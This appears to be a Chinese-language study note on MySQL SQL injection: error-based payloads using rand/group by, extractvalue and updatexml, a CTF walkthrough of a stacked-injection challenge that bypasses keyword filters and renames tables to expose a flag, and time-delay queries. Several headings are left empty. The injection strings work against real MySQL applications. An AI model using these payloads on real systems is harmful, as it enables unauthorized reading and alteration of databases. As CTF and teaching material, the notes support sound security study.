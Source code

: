 ```yaml
---
title: SQL注入
date: {{ date }}
top: false
cover: false
password:
toc: true
mathjax: true
summary:
tags: SQL注入
categories: SQL注入
---
```




# SQL注入

## 联合注入



## 报错注入

### group by重复键冲突

- 多种形式payload：

  ```sql
  select count(*),(concat(floor(rand(0)*2),'%',(select version()),'%'))x from information_schema.tables group by x;
  ```

  ```sql
  select concat(left(rand(),3),'%',(select version()),'%')x,count(*) from information_schema.tables group by x;
  ```

  注：输出字符长度限制为64个字符

### XPATH报错

在MySQL高于5.1版本中添加了对XML文档进行查询和修改的函数:

- extractvalue()

  ```sql
  EXTRACTVALUE (XML_document, XPath_string);
  ```

  - 对XML文档进行查询的函数
  - 语法：extractvalue(目标xml文档，xml路径)

  ```sql
  ?id=1 and extractvalue(1,concat('%',(select version()),'%')) --+
  ```

- updatexml()

  - updatexml()函数与extractvalue()类似，是更新xml文档的函数
  - 语法：updatexml(目标xml文档，xml路径，更新的内容)

  ```sql
  ?id=1 and updatexml(1,concat('%',(select version()),'%'),1) --+
  ```

当这两个函数在执行时,如果出现xml文档路径错误就会产生

注：输出字符有长度限制，最长32位

### ExtractValue报错

```sql
and extractvalue(1, payload)
and extractvalue(1, concat(0x7e,@@version,0x7e))
```

注：输出字符有长度限制，最长32位

## 堆叠注入

什么是堆叠注入：使用分号结束上一个语句再叠加其他语句一起执行

[参考](https://zhuanlan.zhihu.com/p/78989602)

例题来自BUUCTF-[强网杯 2019]随便注1

- 打开后查看源码![image-20201115212459552](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115212459552.png)![image-20201115212514056](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115212514056.png)

- 所以就手工注入吧。尝试单引号，发现报错

  ![image-20201115212619437](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115212619437.png)

  显然是但引号闭合，尝试闭合，发现没问题![image-20201115212729519](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115212729519.png)

- 有报错，有回显，那就从**联合注入**开始。发现到order by 3时报错，即有两个字段![image-20201115212924226](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115212924226.png)

- select查询发现被过滤![image-20201115213016731](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115213016731.png)

- **多行注释**、**大小写**、**双写**均无法绕过，并且由于update被过滤，无法用**updatexml报错**，尝试**ExtractValue报错**![image-20201115213531495](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115213531495.png)

- **ExtractValue报错**可行，不过也到此为止。这时考虑**堆叠注入**，发现可行![image-20201115213647092](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115213647092.png)

- 查出当前可查的表![image-20201115214021920](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115214021920.png)

- 用desc查看表结构的详细信息![image-20201115214113905](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115214113905.png)

  此处查询表名为数字、关键字时，使用反引号将其包裹，否则会出现错误![image-20201115215139041](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115215139041.png)

- 我们可以得知flag存在于supersqli数据库中\`1919810931114514\`表的flag字段。

- 最终payload有两种

  - 预编译相关语法如下：
  
    ```text
    set用于设置变量名和值
    prepare用于预备一个语句，并赋予名称，以后可以引用该语句
    execute执行语句
    deallocate prepare用来释放掉预处理的语句
    ```

    ```sql
    -1';set @sql = CONCAT('se','lect * from   `1919810931114514`;');prepare stmt from @sql;EXECUTE stmt;#
    
    拆分开来如下
    -1';
    set @sql = CONCAT('se','lect * from `1919810931114514`;');
    prepare stmt from @sql;
    EXECUTE stmt;
    #
    ```
    
    结果为：![image-20201115220307215](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115220307215.png)
    
    这里检测到了set和prepare关键词，但strstr这个函数并不能区分大小写，我们将其大写即可。
    
    ```mysql
    -1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#
    
    拆分开来如下：
    -1';
    Set @sql = CONCAT('se','lect * from `1919810931114514`;');
    Prepare stmt from @sql;
    EXECUTE stmt;
    #
    ```
    
    结果为：![image-20201115220501035](https://gitee.com/h1ler/tuci/raw/master/null/image-20201115220501035.png)
    
  - **更改表名列名**
  
    修改表名和列名的语法如下：
    
    ```text
    修改表名(将表名user改为users)
    alter table user rename to users;
    
    修改列名(将字段名username改为name)
    alter table users change uesrname name varchar(30);
    ```
    
    最终payload如下：
    
    ```mysql
    1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#
    
    拆分开来如下
    1';
    alter table words rename to words1;
    alter table `1919810931114514` rename to words;
    alter table words change flag id varchar(50);
    #
    ```
    
    然后使用`1' or 1=1#`即可查询出flag

## 布尔注入

## 时间盲注

### sleep



### benchmark



### heavy query

heavy query顾名思义就是通过做大量的查询导致查询时间较长来达到延时的目的。

- 笛卡尔积

  ```sql
  SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
  ```

- get_lock

  延时精确可控，利用环境有限，需要开两个session测试。

  ```sql
  select get_lock('test',1);
  ```

  ```sql
  select get_lock('test',5);
  ```

- rlike

  通过`rpad`或`repeat`构造长字符串，加以计算量大的pattern，通过repeat的参数可以控制延时长短。

  ```sql
  select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
  ```

  


